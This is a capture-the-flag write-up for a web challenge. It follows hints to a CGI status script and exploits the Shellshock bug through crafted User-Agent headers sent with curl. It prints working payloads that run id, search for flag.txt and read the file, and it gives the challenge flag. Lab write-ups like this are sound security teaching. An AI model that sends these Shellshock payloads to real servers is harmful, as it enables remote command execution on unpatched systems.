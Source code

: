 # web200

## Description
You’ll be shocked when you finally get it.

http://3.238.30.178:3022

## Solve
Inspecting the source has this comment:
```html
<!--How do we feel about robots? Think they'll take over the world some day?-->
```

A hint to `robots.txt`... Lets visit the path http://3.238.30.178:3022/robots.txt
```
User-agent: *
Disallow: /cgi-bin/status.cgi
```

Vistiting this path on the site runs a CGI script (Common Gateway Interface). Basically the web server runs a script and show the output in the browser. In this case it looks like the script is running `echo Robot C2 link up since: $(uptime)` or something similar. This is likely going to be a [Shellshock](https://www.infosecarticles.com/exploiting-shellshock-vulnerability/) vulnerability.

Now we can test if the server is vulnerable:
```bash
curl -A "() { :; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://44.197.231.105:3022/cgi-bin/status.cgi
```
This is making a request ot the server and setting our user agent to `() { :; }; echo  ; echo ; /usr/bin/id`. Let's break down what this means:

- `(){ :; };` Builds a function but since it has `:` it does nothing and just returns.
- After this we echo a blank line before our response body (this is needed when seperating request headers from the body)
- Then we are running `/usr/bin/id` which puts the output in the response body

I found out the server blocks making remote connections so no reverse shell. My next idea was to search for the flag's path and `cat` it out:
```bash
curl -A '() { :; }; echo ; /bin/bash -c "find / -name "flag.txt""' http://44.197.231.105:3022/cgi-bin/status.cgi
```
```
/var/www/flag.txt
```

And now for the flag:
```bash
curl -A '() { :; }; echo ; /bin/bash -c "cat /var/www/flag.txt"' http://44.197.231.105:3022/cgi-bin/status.cgi
```

## Flag
```
MCA{721af99eaabd12a59602e8ade39caab934bea333}
```